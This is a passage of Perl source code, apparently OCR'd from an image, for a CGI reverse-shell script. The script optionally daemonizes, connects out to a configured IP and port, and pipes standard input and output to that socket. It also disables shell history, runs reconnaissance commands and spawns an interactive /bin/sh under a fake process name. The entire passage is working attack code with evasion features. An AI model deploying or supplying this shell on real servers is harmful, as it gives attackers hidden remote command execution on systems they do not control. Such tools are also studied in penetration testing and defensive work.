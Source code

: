 ```perl
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```
